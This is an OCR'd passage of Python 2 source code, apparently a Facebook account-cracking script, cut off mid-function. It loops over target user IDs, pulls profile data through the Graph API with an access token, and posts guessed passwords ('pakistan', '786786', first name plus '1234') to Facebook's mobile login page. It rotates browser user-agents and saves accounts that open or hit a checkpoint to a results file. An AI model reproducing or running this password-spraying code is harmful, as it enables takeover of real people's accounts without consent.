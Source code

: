 	print '\033[0;97m   • \033[0;97mJumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	
### MAIN PAKISTAN ###
	def main(art):
		global CP,oks
		ef = art
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			ah = requests.get('https://graph.facebook.com/'+ef+'/?access_token='+toket)
			p = json.loads(ah.text)
			pb = 'pakistan'
			rep = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : ef, "pass" : pb, "login" : "submit"}, headers = { "user-agent" : "Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"})
			xs = rep.content
			if 'mbasic_logout_button' in xs or 'save-device' in xs:
				print '\033[0;97m   [OK]\033[0;97m '+ef+' \033[0;97m• \033[0;97m'+pb
				oke = open('done/pakis.txt', 'a')
				oke.write('\n   [OK] '+ef+' • '+pb)
				oke.close()
				oks.append(ef)
			else :
				if 'checkpoint' in xs:
					print '\033[0;97m   [CP]\033[0;97m '+ef+' \033[0;97m•\033[0;97m '+pb
					cek = open('done/pakis.txt', 'a')
					cek.write('\n   [CP] '+ef+' • '+pb)
					cek.close()
					CP.append(ef)
				else:
					pb2 = '786786'
					rep = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : ef, "pass" : pb2, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
					xs = rep.content
					if 'mbasic_logout_button' in xs or 'save-device' in xs:
						print '\033[0;97m   [OK]\033[0;97m '+ef+' \033[0;97m• \033[0;97m'+pb2
						oke = open('done/pakis.txt', 'a')
						oke.write('\n   [OK] '+ef+' • '+pb2)
						oke.close()
						oks.append(ef)
					else:
						if 'checkpoint' in xs:
							print '\033[0;97m   [CP]\033[0;97m '+ef+' \033[0;97m•\033[0;97m '+pb2
							cek = open('done/pakis.txt', 'a')
							cek.write('\n   [CP] '+ef+' • '+pb2)
							cek.close()
							CP.append(ef)
						else:
							pb3 = p['first_name'].lower()+'1234'
							rep = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : ef, "pass" : pb3, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36"})
							xs = rep.content
							if 'mbasic_logout_button' in xs or 'save-device' in xs:
								print '\033[0;97m   [OK]\033[0;97m '+ef+' \033[0;97m• \033[0;97m'+pb3
								oke = open('done/pakis.txt', 'a')
								oke.write('\n   [OK] '+ef+' • '+pb3)
								oke.close()